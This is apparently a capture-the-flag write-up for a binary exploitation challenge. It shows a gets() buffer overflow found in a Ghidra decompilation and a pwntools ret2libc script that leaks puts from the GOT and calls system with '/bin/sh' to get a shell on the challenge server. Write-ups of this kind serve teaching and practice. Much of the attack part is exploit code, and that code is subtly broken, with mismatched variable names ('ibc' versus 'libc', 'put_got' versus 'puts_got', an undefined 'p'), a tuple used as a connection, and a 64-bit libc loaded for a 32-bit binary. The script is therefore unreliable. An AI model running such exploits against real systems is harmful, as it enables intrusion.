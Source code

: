 ## PWN 1
### Category : Pwning/Binary Exploitaition

Not sure what the intended solution was, but I could solve the solution using a standard ret2libc exploit.

So as per usual, we are given a binary. After decompiling it in ghidra, we get the main function

```

undefined4 main(void)

{
  int iVar1;
  char local_30 [44];
  
  setvbuf(stdout,(char *)0x0,2,0);
  printf("$ ");
  gets(local_30);
  iVar1 = strcmp(local_30,"ls");
  if (iVar1 == 0) {
    run_command_ls();
  }
  else {
    printf("bash: command not found: %s\n",local_30);
  }
  puts("Bye!");
  return 0;
}
```

Since, gets is being used without any limit on the number of input char, this is a standard buffer overflow vuln

To successfully exploit a buffer overflow, we need a shell access, and unlike the previous challenge, we don't have a shell function to access.

Checksec output of the binary :
```
checksec pwn2
[*] '/home/vipul/Desktop/EncryptCTF/pwn2_SOLVED/pwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
No Safety features!

To exploit the buffer overflow, we need the offset, using GDB and Pwntools, we get the offset at `44`

Now, since ASLR could be present, we need to first calculate the libc base address.

The theory of ASLR goes as in, since true randomization of complete memory space is in computaionally exhaustive, only randomization of the libc base is done, and hence, the difference in memory of locations of any two functions in libc remains constant


So, for the first part of the exploit, we need to calculate libc base. So we call the puts function (whose address is already present due to the main function calling it before) and pass the offset of puts as a argument to puts, and we parse the offset.

Let's say puts is at offset `0x400`, the libc base will be `<addr of function>-0x400`.

We parse the output of puts, and subtract it from address of puts to get the libc base.

Code for the above explanation

```
from pwn import *
context.binary = "./pwn2"
binary = ELF("./pwn2")
source = ("104.154.106.182", 3456)
ibc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
offset = 44
puts_plt = binary.symbols["plt.puts"]
log.info("puts@plt : {}".format(hex(puts_plt)))
put_got = binary.symbols["got.puts"]
log.info("puts@got : {}".format(hex(puts_got)))
main = binary.symbols["main"]
log.info("main : {}".format(hex(main)))

payload = ""
payload += 'A'*offset
payload += p32(puts_plt)
payload += p32(main)
payload += p32(puts_got)

source.sendline(payload)

source.recvuntil("Bye!\n")
leaked = u32(source.recv(4)) #the leaked address from GOT is printed here
libc_base = leaked - libc.symbols['puts']
```

Now after we know the offset of puts, we can calculate the location of `system`, by adding the offset to libc_base and we can also get the location of `/bin/sh`, which will be passed as a parameter to system, to get access to the shell

```
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.symbols["/bin/sh"]

payload = ""
payload += "A"*(offset-8)
payload += p32(system)
payload += p32(0)
payload += p32(binsh)

source.sendline(payload)
p.interactive()
```

```
FLAG : encryptCTF{N!c3_j0b_jump3R}
```